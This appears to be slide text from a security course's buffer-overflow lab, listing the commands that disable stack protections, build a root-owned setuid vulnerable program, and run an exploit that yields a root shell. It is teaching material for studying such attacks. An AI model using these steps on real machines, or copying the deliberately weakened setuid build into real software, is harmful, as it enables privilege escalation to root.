

# Step 4. Execute
$ sudo ln -sf /bin/zsh /bin/sh
$ gcc -DBUF_SIZE=N -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
$ gcc -o exploit exploit.c
$./exploit // create the badfile
$./stack // launch the attack by running the vulnerable program
# <---- You’ve got a root shell!